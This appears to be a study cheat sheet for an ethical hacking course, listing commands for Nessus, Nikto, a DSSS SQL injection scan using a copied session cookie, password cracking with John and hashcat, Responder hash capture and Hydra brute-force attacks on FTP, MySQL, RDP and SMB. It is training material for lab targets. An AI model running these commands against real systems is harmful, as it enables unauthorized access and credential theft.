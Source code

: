 ¨ Nessus

	Nessus runs on  https://localhost:8834

	Username: admin 

	Password: password

	Nessus-> Policies-> Advanced scan. 

¨ Searchsploit

¨ linPEAS

¨ Nikto

	nikto -h www.certifiedhacker.com -Tuning x - -h: specifies the target host and x: specifies the Reverse Tuning Options (i.e., include all except specified)., target website is certifiedhacker.com

	nikto -h www.certifiedhacker.com -o Nickto_Scan_Results -F txt - -h: specifies the target, -o: specifies the name of the output file, and -F: specifies the file format. www.certifiedhacker.com is the website. Name the file Nikto_Scan_Results

¨ SQL

	cd DSSS + python3 dsss.py + Inspect the webpage and search for the document.cookie + python3 dsss.py -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="[cookie value which you have copied in Step 7]" - -u specifies the target URL and --cookie specifies the HTTP cookie header value. + Go to the webpage dsss shows 

	OWASP ZAP > Automated scan > enter URL to attack > attack 

¨ Other tools and notes

https://www.exploit-db.com/

--------------------------------------------------------------------------
Module 6 – System Hacking

¨ Crack and Audit Password

	sudo snap install john-the ripper + sudo john /home/ubuntu/Responder/logs/SMB-NTLMv2-SSP-10.10.10.10.txt - cracks password of the SMB-NTLMv2(...) .txt file

	zip2john {file name.zip} > hashes + john -wordlist=/usr/share/wordlists/rockyou.txt hashes -  use the following command to bruteforce against the hash stroed in file hashes. 

¨ Hashcracking and Hashgrabbing

	hashcat -a 0 -m 0 {file with the hash} /usr/share/wordlists/rockyou.txt 

	cd Responder + chmod +x./Responder.py + sudo ./Responder.py -l eth0 – check usr\share\responder\logs

¨ Hydra

	hydra -l root -P passwords.txt [-t 32] <IP> ftp
	hydra -L usernames.txt -P pass.txt <IP> mysql
	hydra -l USERNAME -P /path/to/passwords.txt -f <IP> pop3 -V
	hydra -V -f -L <userslist> -P <passwlist> rdp://<IP>
	hydra -P common-snmp-community-strings.txt target.com snmp
	hydra -l Administrator -P words.txt 192.168.1.12 smb -t 1

